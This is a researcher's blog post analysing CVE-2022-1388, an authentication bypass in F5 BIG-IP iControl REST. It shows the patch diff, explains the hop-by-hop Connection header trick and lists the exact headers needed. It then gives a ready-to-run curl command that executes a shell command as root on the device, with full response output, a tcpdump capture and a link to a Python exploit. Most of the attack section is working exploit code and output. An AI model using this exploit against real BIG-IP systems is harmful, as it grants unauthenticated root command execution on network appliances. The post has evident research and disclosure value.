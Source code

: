 ```yaml
---
title: "F5 BIG-IP iControl REST vulnerability CVE-2022-1388"
date: 2022-05-09T16:42:00+01:00
author: "Matus Bursa"
tags: ["F5", "CVE-2022-1388", "BIG-IP", "REST", "API"]
categories: ["vulns"]
---
```


Good afternoon for every security researchers. I would like to share my experience to find announced vulnerability by internal F5 security team and write exploit for [CVE-2022-1388](https://support.f5.com/csp/article/K23605346).

You can read more about this vulnerability on [thehackernews](https://thehackernews.com/2022/05/f5-warns-of-new-critical-big-ip-remote.html) or [helpnetsecurity](https://www.helpnetsecurity.com/2022/05/09/cve-2022-1388-poc-exploitation/). [iControl REST](https://clouddocs.f5.com/api/icontrol-rest/) is API for interaction between scripts and *F5 device* to manage and control that device automatically.  

Based on details of *mitigation*, the problem should be somewhere in `Connection: ` header.

### mitigation
```apache
<If \"%{HTTP:connection} =~ /close/i \">
RequestHeader set connection close
</If>
<ElseIf \"%{HTTP:connection} =~ /keep-alive/i \">
RequestHeader set connection keep-alive
</ElseIf>
<Else>
    RequestHeader set connection close
</Else>
```

### inside the library

If we use `diff` and `strings` commands, we can see which strings was changes/added to library, so I decided to download one from vulnerable version `BIGIP-16.1.0-0.0.19` and one from fixed version `BIGIP-16.1.2.2-0.0.28`

```bash
$ diff  <(strings mod_auth_pam.so_new ) <(strings mod_auth_pam.so_old)
...
259,261d243
< Connection
< close
< keep-alive
268d249
...
```

### header Connection

So we know that in F5, there is `Jetty` server without authentication on `TCP/8100`, which we can hit for example from `localhost` (F5 device). We also know that there is `Apache` which do the *Authentication* for `Jetty` and also we know we can abuse [hop-by-hop header](https://book.hacktricks.xyz/pentesting-web/abusing-hop-by-hop-headers) there, but we don't know which header we should pass to `Connection` header. Also for more details about hop-by-hop headers you can read [RFC2616](https://datatracker.ietf.org/doc/html/rfc2616#section-13.5.1)


### exploit

After couple of hours and tries I found the requirements to make exploit functionable:
- `X-F5-Auth-Token` header must be present (that's requirement for Apache sends request to Jetty backend)
- `Connection` header *must* include `X-F5-Auth-Token` (based on hop-by-hop headers this will delete `X-F5-Auth-Token` from the request to backend)
- `Host` header *must* be `localhost` or `127.0.0.1` (Jetty checks this value or you can put `X-Forwarded-Host` to `Connection` header to make `X-Forwarded-Host` header invisible for Jetty)
- `Authentication` header *must* be `admin` user

*curl*
```bash
$ curl -vvv -sk -X POST -H 'Content-Type: application/json' 'https://admin@192.168.52.10/mgmt/tm/util/bash' --data '{"command": "run" , "utilCmdArgs": " -c id
" }' -H 'X-F5-Auth-Token: -' -H 'Connection: close, X-F5-Auth-Token' -H 'Host: localhost'
*   Trying 192.168.52.10:443...
* Connected to 192.168.52.10 (192.168.52.10) port 443 (#0)
* ALPN, offering h2
* ALPN, offering http/1.1
* successfully set certificate verify locations:
*  CAfile: /etc/ssl/cert.pem
*  CApath: none
* (304) (OUT), TLS handshake, Client hello (1):
* (304) (IN), TLS handshake, Server hello (2):
* TLSv1.2 (IN), TLS handshake, Certificate (11):
* TLSv1.2 (IN), TLS handshake, Server key exchange (12):
* TLSv1.2 (IN), TLS handshake, Server finished (14):
* TLSv1.2 (OUT), TLS handshake, Client key exchange (16):
* TLSv1.2 (OUT), TLS change cipher, Change cipher spec (1):
* TLSv1.2 (OUT), TLS handshake, Finished (20):
* TLSv1.2 (IN), TLS change cipher, Change cipher spec (1):
* TLSv1.2 (IN), TLS handshake, Finished (20):
* SSL connection using TLSv1.2 / ECDHE-RSA-AES128-GCM-SHA256
* ALPN, server did not agree to a protocol
* Server certificate:
*  subject: C=--; ST=WA; L=Seattle; O=MyCompany; OU=MyOrg; CN=localhost.localdomain; emailAddress=root@localhost.localdomain
*  start date: May  7 08:55:32 2022 GMT
*  expire date: May  4 08:55:32 2032 GMT
*  issuer: C=--; ST=WA; L=Seattle; O=MyCompany; OU=MyOrg; CN=localhost.localdomain; emailAddress=root@localhost.localdomain
*  SSL certificate verify result: self signed certificate (18), continuing anyway.
* Server auth using Basic with user 'admin'
> POST /mgmt/tm/util/bash HTTP/1.1
> Host: localhost
> Authorization: Basic YWRtaW46
> User-Agent: curl/7.79.1
> Accept: */*
> Content-Type: application/json
> X-F5-Auth-Token: -
> Connection: close, X-F5-Auth-Token
> Content-Length: 45
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Tue, 10 May 2022 05:18:22 GMT
< Server: Jetty(9.2.22.v20170606)
< X-Frame-Options: SAMEORIGIN
< Strict-Transport-Security: max-age=16070400; includeSubDomains
< Content-Type: application/json; charset=UTF-8
< Allow:
< Pragma: no-cache
< Cache-Control: no-store
< Cache-Control: no-cache
< Cache-Control: must-revalidate
< Expires: -1
< Content-Length: 168
< X-Content-Type-Options: nosniff
< X-XSS-Protection: 1; mode=block
< Content-Security-Policy: default-src 'self'  'unsafe-inline' 'unsafe-eval' data: blob:; img-src 'self' data:  http://127.4.1.1 http://127.4.2.1
< Connection: close
<
* Closing connection 0
* TLSv1.2 (OUT), TLS alert, close notify (256):
{"kind":"tm:util:bash:runstate","command":"run","utilCmdArgs":" -c id","commandResult":"uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0\n"}
```

*tcpdump* on F5 device
```bash
$ tcpdump -i lo -s 0 -A 'tcp[((tcp[12:1] & 0xf0) >> 2):4] = 0x504F5354'
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on lo, link-type EN10MB (Ethernet), capture size 65535 bytes
22:18:22.457963 IP localhost.localdomain.59668 > localhost.localdomain.xprint-server: Flags [P.], seq 2917914269:2917914711, ack 2716646422, win 342, options [nop,nop,TS val 245887457 ecr 245887457], length 442
E...'.@.@..........................V.......
........POST /mgmt/tm/util/bash HTTP/1.1
Host: localhost:8100
Authorization: Basic YWRtaW46
User-Agent: curl/7.79.1
Accept: */*
Content-Type: application/json
Local-Ip-From-Httpd: 192.168.52.10
X-F5-New-Authtok-Reqd: false
X-Forwarded-Proto: http
X-Forwarded-For: 192.168.52.1
X-Forwarded-Host: localhost
X-Forwarded-Server: localhost.localdomain
Connection: Keep-Alive
Content-Length: 45

{"command": "run" , "utilCmdArgs": " -c id" }
22:18:22.461910 IP localhost.localdomain.50416 > localhost.localdomain.48470: Flags [P.], seq 3235108301:3235108827, ack 1593436189, win 3631, options [nop,nop,TS val 245887461 ecr 245836911], length 526
E..B.d@.@.PO...........V....^....../.7.....
......,oPOST /tmapi_mapper/util/bash HTTP/1.1
Content-Type: application/json
Authorization: Basic YWRtaW46
X-Forwarded-For: 192.168.52.1
X-F5-Config-Api-Status: 1907
Referer: 192.168.52.1
User-Agent: com.f5.rest.common.RestRequestSender
Accept: */*
Connection: Keep-alive
X-Forwarded-Proto: http
X-Forwarded-Host: localhost
X-F5-New-Authtok-Reqd: false
Local-Ip-From-Httpd: 192.168.52.10
X-Forwarded-Server: localhost.localdomain
Content-Length: 45
Host: localhost:48470

{"command": "run" , "utilCmdArgs": " -c id" }
```

That's all from my side, you can look at python [exploit](https://github.com/horizon3ai/CVE-2022-1388) from [Horizon3Attack team](https://twitter.com/Horizon3Attack).

### twitter story

{{< tweet BursaMatus 1523379163914137600 >}}